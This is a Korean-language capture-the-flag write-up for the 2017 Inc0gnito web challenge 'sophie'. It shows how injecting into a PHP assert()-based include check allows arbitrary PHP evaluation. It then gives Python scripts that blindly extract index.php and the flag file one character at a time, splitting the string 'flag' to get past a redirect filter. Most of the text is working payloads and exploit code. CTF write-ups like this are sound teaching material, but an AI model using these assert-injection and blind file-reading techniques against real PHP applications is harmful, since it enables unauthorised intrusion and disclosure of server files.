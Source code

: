 ==============================================================
[2017_Inc0gnito] [web] sophie
==============================================================


문제내용
==============================================================

Come to my Atelier!
Service available at : http://prob.nagi.moe:9091


문제 풀이
==============================================================

웹 페이지에 접속해서 싱글쿼터를 입력하면 assert 에러가 발생된다.

.. image:: ../_images/0825-01.png
    :align: center

코드를 보면 strpos('./includes/'.php','php://')===false 라고 되어 있는 것으로 보아 lfi를 차단하기 위한 코드로 보인다.
해당 부분을 or 인젝션을 통해 앞부분을 true로 만들고 뒷부분을 true/false으로 하여 인젝션을 해본다.

.. code-block:: sql

    strpos('./includes/','1')===true || 1==1; //.php','php://')===false



.. image:: ../_images/0825-02.png
    :align: center

.. code-block:: sql

    strpos('./includes/','1')===true || 1==2; //.php','php://')===false

.. image:: ../_images/0825-03.png
    :align: center


true/false 조건이 적용되는 것을 확인하였으니, 먼저 index.php 내용을 가져와 보자.
먼저 파일 길이를 확인한다.

.. code-block:: python

    for m in range(1500,2000):
        url = "http://prob.nagi.moe:9091/index.php?page=','1')===true ||" 
        _php_query = "strlen(file_get_contents('/var/www/html/index.php'))==%d"%(m)
        comment = ";//"
        r = requests.get(url+_php_query+comment)
        if "/var/www/html/index.php on line" in r.content:
            result = "querry error"
        elif "I am now learning PHP!" in r.content:
            result = "index page"
        else:
            print m
            break


파일 길이를 확인하였으니, 파일 내용을 가져와보자.

.. code-block:: python

    php_text = ''
    for m in range(0,1528):
        for l in string_list:
            url = "http://prob.nagi.moe:9091/index.php?page=','1')===true ||" 
            _php_query = "substr(file_get_contents('/var/www/html/index.php'),%d,1)=='%s'"%(m,l)
            comment = ";//"

            r = requests.get(url+_php_query+comment)
            if "/var/www/html/index.php on line" in r.content:
                result = "querry error"
            elif "I am now learning PHP!" in r.content:
                result = "index page"
            else:
                print l
                php_text += l
                break

    print php_text


index.php 내용을 확인해보면 flag는 /includes/flag.php에 있다고 한다.
하지만 uri에 flag를 넣게 되면 home 페이지로 리다이렉트 되기 때문에 문자열을 분리하여 우회하여 파일내용을 가져오면 플래그를 확인할 수 있다.

.. code-block:: python

    php_text = ''
    for m in range(0,53):
        for l in string_list:
            url = "http://prob.nagi.moe:9091/index.php?page=','1')===true ||" 
            _php_query = "substr(file_get_contents('./includes/fla'.'g.php'),%d,1)=='%s'"%(m,l)
            comment = ";//"

            r = requests.get(url+_php_query+comment)
            if "/var/www/html/index.php on line" in r.content:
                result = "querry error"
            elif "I am now learning PHP!" in r.content:
                result = "index page"
            else:
                print l
                php_text += l
                break

    print php_text
